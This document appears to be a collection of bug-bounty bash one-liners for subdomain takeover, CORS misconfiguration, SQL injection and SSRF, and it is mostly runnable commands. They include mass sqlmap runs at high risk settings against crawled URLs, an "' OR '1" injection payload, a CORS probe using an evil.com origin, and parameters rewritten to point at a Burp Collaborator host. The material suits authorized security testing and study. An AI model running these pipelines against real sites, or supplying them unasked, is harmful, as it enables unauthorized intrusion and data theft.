 ## Find Subdomains TakeOver
> hahwul
```bash
subfinder -d {target} >> domains ; assetfinder -subs-only {target} >> domains ; amass enum -norecursive -noalts -d {target} >> domains ; subjack -w domains -t 100 -timeout 30 -ssl -c ~/go/src/github.com/haccer/subjack/fingerprints.json -v 3 >> takeover ; 
```

## CORS Misconfiguration
> manas_hunter
```bash
site="https://example.com"; gau "$site" | while read url;do target=$(curl -s -I -H "Origin: https://evil.com" -X GET $url) | if grep 'https://evil.com'; then [Potentional CORS Found]echo $url;else echo Nothing on "$url";fi;done
```

## SQL Injection
> @ofjaaah
```bash
findomain -t http://testphp.vulnweb.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli ; sqlmap -m sqli -batch --random-agent --level 1
```
> @daffainfo
```bash
subfinder -d site.com -all -silent | waybackurls | sort -u | gf sqli > gf_sqli.txt; sqlmap -m gf_sqli.txt --batch --risk 3 --random-agent | tee -a sqli.txt
```

## Search SQLINJECTION using qsreplace search syntax error
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
```bash
grep "="  .txt| qsreplace "' OR '1" | httpx -silent -store-response-dir output -threads 100 | grep -q -rn "syntax\|mysql" output 2>/dev/null && \printf "TARGET \033[0;32mCould Be Exploitable\e[m\n" || printf "TARGET \033[0;31mNot Vulnerable\e[m\n"
```

## SQLi-TimeBased scanner
> @slv0d
```bash
gau DOMAIN.tld  | sed 's/=[^=&]*/=YOUR_PAYLOAD/g' | grep ?*= | sort -u | while read host;do (time -p curl -Is $host) 2>&1 | awk '/real/ { r=$2;if (r >= TIME_OF_SLEEP ) print h " => SQLi Time-Based vulnerability"}' h=$host ;done
```

## Recon to search SSRF Test
> [KingOfBugbounty](https://github.com/KingOfBugbounty/KingOfBugBountyTips)
```bash
findomain -t DOMAIN -q | httpx -silent -threads 1000 | gau |  grep "=" | qsreplace http://YOUR.burpcollaborator.net
```
